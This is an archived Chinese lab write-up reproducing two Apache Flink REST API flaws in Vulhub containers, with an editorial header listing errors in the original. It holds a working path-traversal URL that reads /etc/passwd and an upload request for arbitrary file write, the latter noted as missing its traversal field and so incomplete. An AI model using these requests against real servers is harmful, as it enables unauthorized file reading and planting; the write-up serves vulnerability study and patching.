






# CVE-2020-17518and17519：Flink 两个漏洞复现

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Apache Flink REST管理接口
- 文献类型：双漏洞Flink复现
- 版本、权限及部署边界：17518文中1.5.1–1.11.2写入；17519仅1.11.0–1.11.2读取；管理接口可达及服务进程文件权限
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 元数据遗漏17519，两个读写漏洞范围和endpoint不同必须拆实体
2. 17518请求Content-Disposition丢失name/filename和路径穿越核心字段，现有multipart无法支持所述/tmp文件写入
3. docker exec CONTAINER ID占位符含空格未说明替换；截图未视检，步骤不能算独立已验证
4. 部署两个实验均端口8081需明确分别运行；未说明认证/代理保护
5. 修复只有下载主页，无各分支安全版本/Apache公告；保留Vulhub两个环境链接

### 操作风险

17518请求Content-Disposition丢失name/filename和路径穿越核心字段，现有multipart无法支持所述/tmp文件写入

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/9xLQ1YAWVtHBv9qVk-Xc1A>
- 原文参考链接（未重新核验）：<http://ksria.com/simpread/>
- 原文参考链接（未重新核验）：<https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17518>
- 原文参考链接（未重新核验）：<http://your-ip:8081>
- 原文参考链接（未重新核验）：<https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519>
- 原文参考链接（未重新核验）：<http://ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/9xLQ1YAWVtHBv9qVk-Xc1A)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：柠檬蔷薇** **@Timeline Sec**

**本文字数：875**

**阅读时长：2～3min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

Apache Flink 是由 Apache 软件基金会开发的开源流处理框架，其核心是用 Java 和 Scala 编写的分布式流数据流引擎。Flink 以数据并行和流水线方式执行任意流数据程序，Flink 的流水线运行时系统可以执行批处理和流处理程序。

**0x02 漏洞概述**  

  

**编号：CVE-2020-17518&17519**

Flink 1.5.1 引入了 REST API，但其实现上存在多处缺陷，导致目录遍历和任意文件写入漏洞。  

CVE-2020-17519：攻击者可通过 REST API 使用../ 跳目录实现系统任意文件读取；CVE-2020-17518：通过构造恶意的 http header，可实现远程文件写入。

**0x03 影响版本**  

  

1、CVE-2020-17518：  

Apache Flink 1.5.1 ~ 1.11.2

### 2、CVE-2020-17519

Apache Flink 1.11.0、1.11.1、1.11.2

**0x04 环境搭建**  

  

**CVE-2020-17518**

使用 vulhub 进行安装，vulhub 地址：  

```
https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17518
```

进入目录

```
cd vulhub-master/flink/CVE-2020-17518
```

安装环境  

```
sudo docker-compose up -d
```



接着访问 http://your-ip:8081



### **CVE-2020-17519**

Vulhub 地址：  

```
https://github.com/vulhub/vulhub/tree/master/flink/CVE-2020-17519
```

进入目录

```
cd vulhub-master/flink/CVE-2020-17519
```

安装环境  

```
sudo docker-compose up -d
```

  

接着访问：http://your-ip:8081


**0x05 漏洞复现**  

  

**CVE-2020-17518**

#### 1、构建数据包进行发送

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (X11; Linux x86_64;rv:78.0) Gecko/20100101 Firefox/78.0
Connection: close
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187
 
------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data;
 
success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```



#### 2、 此时进入容器，查看 success 文件是否创建成功

```
cd vulhub-master/flink/CVE-2020-17518
docker ps
docker exec -it CONTAINER ID bash
ls /tmp
```



如上图所示，镜像里面有了 success 文件，执行成功

### **CVE-2020-17519**

POC：  

```
http://ip:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

  

**0x06 修复方式**  

  

临时修复建议：

若业务环境允许，使用白名单限制相关 web 项目的访问来降低风险。

官方已发布安全版本，请及时下载升级至安全版本。

  
下载链接：  

https://flink.apache.org/zh/downloads.html

```
参考链接：
```

https://github.com/vulhub/


  


**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
